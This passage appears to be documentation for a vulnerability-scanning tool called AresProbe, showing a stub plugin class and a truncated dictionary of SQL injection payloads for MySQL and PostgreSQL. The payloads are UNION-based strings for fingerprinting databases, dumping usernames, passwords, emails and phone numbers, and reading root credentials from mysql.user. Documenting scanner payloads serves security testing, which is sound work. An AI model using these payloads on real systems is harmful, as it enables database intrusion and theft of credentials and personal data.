 ### Custom Plugin Example

```python
# custom_plugins/advanced_scanner.py
from aresprobe.plugins.base import BasePlugin

class AdvancedScannerPlugin(BasePlugin):
    def __init__(self):
        super().__init__()
        self.name = "Advanced Scanner"
        self.version = "1.0.0"
        self.description = "Advanced vulnerability scanner"
    
    def scan(self, target_url: str, config: dict) -> dict:
        """Custom scanning logic"""
        results = {
            'vulnerabilities': [],
            'scan_time': 0,
            'total_tests': 0
        }
        
        # Custom scanning implementation
        # ...
        
        return results
    
    def get_plugin_info(self) -> dict:
        return {
            'name': self.name,
            'version': self.version,
            'description': self.description,
            'author': 'Your Name',
            'license': 'MIT'
        }
```

## Custom Payloads

### SQL Injection Payloads

```python
custom_sql_payloads = {
    'mysql': {
        'information_gathering': [
            "' UNION SELECT version(),user(),database()--",
            "' UNION SELECT @@version,@@datadir,@@hostname--",
            "' UNION SELECT table_name,table_schema FROM information_schema.tables--"
        ],
        'data_extraction': [
            "' UNION SELECT username,password FROM users--",
            "' UNION SELECT email,phone FROM customers--",
            "' UNION SELECT CONCAT(username,':',password) FROM users--"
        ],
        'privilege_escalation': [
            "' UNION SELECT user,password FROM mysql.user WHERE user='root'--",
            "' UNION SELECT grantee,privilege_type FROM information_schema.user_privileges--"
        ]
    },
    'postgresql': {
        'information_gathering': [
            "' UNION SELECT version(),current_user,current_database()--",
            "' UNION SELECT tablename,schemaname FROM pg_tables--"
        ],
```